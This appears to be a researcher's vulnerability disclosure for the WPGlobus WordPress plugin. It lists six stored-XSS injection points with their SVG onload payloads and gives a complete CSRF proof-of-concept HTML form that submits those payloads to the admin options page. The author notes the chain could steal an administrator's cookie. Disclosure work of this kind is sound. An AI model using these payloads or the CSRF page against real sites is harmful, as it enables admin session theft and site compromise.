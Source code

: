 Well ,sir ,I just found some Stored-XSS bugs and a CSRF bug at wp-plugin wpglobus.

#### Stored-XSS

When the admin user click the "Update Options" button in the wpglobus setting page, we'll post some data to:

```
http://localhost/wordpress/wp-admin/options.php
```


But when I pentest the  parameter in this plugin, I found when I write something into this point, it does not filter well.

Weak data parameter:
##### Stored XSS1
By the way, the parameter "wpglobus_option[enabled_languages][en]" can be "wpglobus_option[enabled_languages][fr]" or something similar.

```
------WebKitFormBoundaryGWoOgFDIacZK8gd1
Content-Disposition: form-data; name="wpglobus_option[enabled_languages][en]"

1'"><svg/onload=console.log(/xss1/)><'"

```

##### Stored XSS2

```
------WebKitFormBoundaryGWoOgFDIacZK8gd1
Content-Disposition: form-data; name="wpglobus_option[more_languages]"

'"><svg/onload=console.log(/xss2/)><'"

```

##### Stored XSS3

```
------WebKitFormBoundaryGWoOgFDIacZK8gd1
Content-Disposition: form-data; name="wpglobus_option[selector_wp_list_pages][show_selector]"

'"><svg/onload=console.log(/xss3/)><'"
```

##### Stored XSS4

```
------WebKitFormBoundaryGWoOgFDIacZK8gd1
Content-Disposition: form-data; name="wpglobus_option[post_type][post]"

1'"><svg/onload=console.log(/xss4/)><'"
```

##### Stored XSS5

```
------WebKitFormBoundaryGWoOgFDIacZK8gd1
Content-Disposition: form-data; name="wpglobus_option[post_type][page]"

1'"><svg/onload=console.log(/xss5/)><'"
```

##### Stored XSS6

```
------WebKitFormBoundaryGWoOgFDIacZK8gd1
Content-Disposition: form-data; name="wpglobus_option[browser_redirect][redirect_by_language]"

1'"><svg/onload=console.log(/xss6/)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wpglobus/sxss.png)


#### CSRF

Well, the stored-xss here need to combined with a csrf bug. Because no csrf protection or wp_nonce here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wp-admin/options.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="wpglobus&#95;option&#91;compiler&#93;" value="1" />
      <input type="hidden" name="wpglobus&#95;option&#91;redux&#45;section&#93;" value="1" />
      <input type="hidden" name="option&#95;page" value="wpglobus&#95;option&#95;group" />
      <input type="hidden" name="action" value="update" />
      <input type="hidden" name="&#95;wpnonce" value="8cf1859d8e" />
      <input type="hidden" name="&#95;wp&#95;http&#95;referer" value="&#47;wordpress&#47;wp&#45;admin&#47;admin&#46;php&#63;page&#61;wpglobus&#95;options" />
      <input type="hidden" name="wpglobus&#95;option&#91;last&#95;tab&#93;" value="" />
      <input type="hidden" name="wpglobus&#95;option&#91;enabled&#95;languages&#93;&#91;en&#93;" value="1&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss1&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="wpglobus&#95;option&#91;enabled&#95;languages&#93;&#91;es&#93;" value="1" />
      <input type="hidden" name="wpglobus&#95;option&#91;enabled&#95;languages&#93;&#91;de&#93;" value="1" />
      <input type="hidden" name="wpglobus&#95;option&#91;enabled&#95;languages&#93;&#91;fr&#93;" value="1" />
      <input type="hidden" name="wpglobus&#95;option&#91;enabled&#95;languages&#93;&#91;ru&#93;" value="1" />
      <input type="hidden" name="wpglobus&#95;option&#91;more&#95;languages&#93;" value="&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss2&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="wpglobus&#95;option&#91;show&#95;flag&#95;name&#93;" value="code" />
      <input type="hidden" name="wpglobus&#95;option&#91;use&#95;nav&#95;menu&#93;" value="" />
      <input type="hidden" name="wpglobus&#95;option&#91;selector&#95;wp&#95;list&#95;pages&#93;&#91;show&#95;selector&#93;" value="&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss3&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="wpglobus&#95;option&#91;css&#95;editor&#93;" value="" />
      <input type="hidden" name="wpglobus&#95;option&#91;js&#95;editor&#93;" value="" />
      <input type="hidden" name="paged" value="" />
      <input type="hidden" name="wpglobus&#95;option&#91;post&#95;type&#93;&#91;post&#93;" value="1&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss4&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="wpglobus&#95;option&#91;post&#95;type&#93;&#91;page&#93;" value="1&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss5&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="wpglobus&#95;option&#91;browser&#95;redirect&#93;&#91;redirect&#95;by&#95;language&#93;" value="1&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss6&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="redux&#95;save" value="�&#191;&#157;�&#173;&#152;�&#155;&#180;�&#148;&#185;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin wpglobus.